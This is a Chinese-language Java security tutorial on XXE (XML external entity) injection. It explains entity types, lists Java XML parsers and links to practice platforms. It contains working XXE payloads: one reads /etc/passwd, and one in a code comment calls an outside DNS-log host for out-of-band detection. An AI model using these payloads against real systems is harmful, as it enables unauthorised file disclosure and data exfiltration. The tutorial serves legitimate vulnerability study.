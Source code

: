 3）通用实体
用”&实体名“引用的实体，在DTD中定义，在XML文档中引用。
![](https://img.l1uyun.one/javasec-xxe注入_image_4.png)

4）参数实体
使用`% 实体名`（这里空格不能少）在 DTD 中定义，并且只能在 DTD 中使用`%实体名;`引用
只有在DTD文件中，参数实体的声明才能引用其他实体
和通用实体一样，参数实体也可以外部引用
![](https://img.l1uyun.one/javasec-xxe注入_image_5.png)

### XXE
XXE（XML External Entity Injection，XML 外部实体注入）是一种安全漏洞，通常发生在解析 XML 数据时。攻击者通过在 XML 文档中注入外部实体来读取本地文件、发送数据到远程服务器，甚至执行其他恶意操作。
XXE 攻击可能导致敏感信息泄露、服务拒绝（DoS）攻击等安全问题。

XXE漏洞之所以名为外部实体漏洞，就是因为问题主要出自于外部资源的申请以及外部实体的引用这部分特性中。我们从XXE的全称（XML外部实体注入）可以看出，XXE也是一种XML注入，只不过注入的是XML外部实体罢了。
![|500](https://img.l1uyun.one/javasec-xxe注入_image_6.png)
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
```
在这个示例中，`<!ENTITY xxe SYSTEM "file:///etc/passwd" > `定义了一个外部实体 xxe，指向本地文件 /etc/passwd。
当 XML 解析器解析这个 XML 数据时，它会尝试读取 /etc/passwd 文件的内容并将其插入到 <foo>&xxe;</foo> 标签中。

### Java 解析XML的四种方式 
1. DOM（Document Object Model）解析
   - DocumentBuilder: 用于解析 XML 数据并构建 DOM 文档对象模型。属于 JAXP（Java API for XML Processing）。
   - DOMParser: 一般指 DOM 解析器的实现（如 org.w3c.dom.DocumentBuilder）。它用于将 XML 数据解析成 DOM 文档结构。


2. SAX（Simple API for XML）解析
   - SAXParser: SAX 解析器，用于逐行读取 XML 数据，并触发相应的事件。属于 JAXP（Java API for XML Processing）。
   - Unmarshaller: JAXB 中的组件，用于将 XML 数据转换为 Java 对象。虽然它在 JAXB 中不直接属于 SAX，但它可以配置 SAX 解析器来处理 XML 数据。


3. JDOM 解析
   - SAXBuilder: JDOM 提供的一个类，用于通过 SAX 解析器构建 JDOM 文档对象模型。JDOM 是一个独立的 XML 处理库，与 DOM4J 和 JAXB 不同。


4. DOM4J（Document Object Model for Java）解析
   - SAXReader: DOM4J 提供的一个类，用于使用 SAX 解析 XML 数据。实际上，SAXReader 是 DOM4J 的一部分，而不是独立的 SAX 解析器。


## 复现平台
[Hello-Java-Sec](https://github.com/j3ers3/Hello-Java-Sec)
[JavaSec](https://github.com/bewhale/JavaSec)
## 漏洞分析
按照这两个平台提供的资源,来看看具体产生漏洞的代码.
### XMLReader
```java

/**
 * XMLReader 是一个接口，用于解析 XML 文档。它是 SAX (Simple API for XML) 的核心组件之一。
 * 它提供了对 XML 文档的逐行读取和解析功能，并将事件传递给相应的处理器。
 * 使用 XMLReader 时，需要注意安全问题，例如防止 XML 外部实体注入攻击。
 */
 
// payload: <?xml version="1.0" encoding="utf-8"?><!DOCTYPE test [<!ENTITY xxe SYSTEM "dsm6kqkg.dnslog.pw">]><root>&xxe;</root>

```